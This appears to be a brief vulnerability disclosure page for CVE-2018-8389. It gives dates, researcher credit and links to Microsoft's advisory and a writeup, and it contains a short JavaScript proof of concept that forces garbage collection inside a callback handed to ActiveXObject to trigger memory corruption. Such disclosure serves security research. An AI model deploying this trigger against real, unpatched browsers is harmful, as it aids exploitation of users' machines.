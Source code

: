 # CVE-2018-8389

- Report: Jan 2018
- Fix: August 2018
- Credit: Sudhakar Verma and Ashfaq Ansari - Project Srishti

## PoC

```js
var arr1 = new Object();
arr1.toString = function(){ CollectGarbage(); };
var arrs = new Array(0x7fff);
var z = new ActiveXObject(arrs, [arr1]);
```

## Reference

- [Microsoft](https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2018-8389)
- [Writeup](https://gist.github.com/sudhackar/20eef22e8790ee05a3b325513daf858b)